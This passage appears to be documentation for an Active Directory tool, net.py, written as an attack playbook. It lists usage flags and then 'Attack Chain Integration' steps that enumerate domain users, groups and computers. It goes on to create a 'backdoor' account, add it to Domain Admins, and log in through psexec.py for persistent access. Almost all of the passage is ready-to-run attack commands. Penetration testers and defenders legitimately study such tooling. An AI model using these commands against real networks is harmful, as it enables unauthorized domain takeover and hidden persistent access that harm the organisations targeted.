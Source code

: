 ### Advanced Usage
```bash
# Debug mode for troubleshooting
python3 net.py -debug domain.com/admin:password@target.domain.com user

# With timestamps
python3 net.py -ts domain.com/admin:password@target.domain.com user

# Specify domain controller explicitly
python3 net.py -dc-ip 192.168.1.10 domain.com/admin:password@target.domain.com user

# Connect over SMB port 139
python3 net.py -port 139 domain.com/admin:password@target.domain.com user
```

## Attack Chain Integration

### Domain Enumeration and Reconnaissance
```bash
# Step 1: Enumerate all domain users for target identification
python3 net.py domain.com/user:password@dc.domain.com user > domain_users.txt

# Step 2: Identify high-value accounts and service accounts
python3 net.py domain.com/user:password@dc.domain.com user -name krbtgt
python3 net.py domain.com/user:password@dc.domain.com user -name Administrator

# Step 3: Enumerate domain groups to understand privilege structure
python3 net.py domain.com/user:password@dc.domain.com group > domain_groups.txt
python3 net.py domain.com/user:password@dc.domain.com group -name "Domain Admins"
python3 net.py domain.com/user:password@dc.domain.com group -name "Enterprise Admins"

# Step 4: Check computer accounts for potential targets
python3 net.py domain.com/user:password@dc.domain.com computer > domain_computers.txt
```

### Privilege Escalation Through Account Creation
```bash
# Step 1: Create backdoor user account
python3 net.py domain.com/admin:password@dc.domain.com user -create backdoor -newPasswd ComplexPass123!

# Step 2: Add backdoor user to Domain Admins group
python3 net.py domain.com/admin:password@dc.domain.com group -name "Domain Admins" -join backdoor

# Step 3: Verify new account privileges
python3 net.py domain.com/admin:password@dc.domain.com user -name backdoor
python3 net.py domain.com/admin:password@dc.domain.com group -name "Domain Admins"

# Step 4: Use new account for persistent access
python3 psexec.py domain.com/backdoor:ComplexPass123!@target.domain.com
```
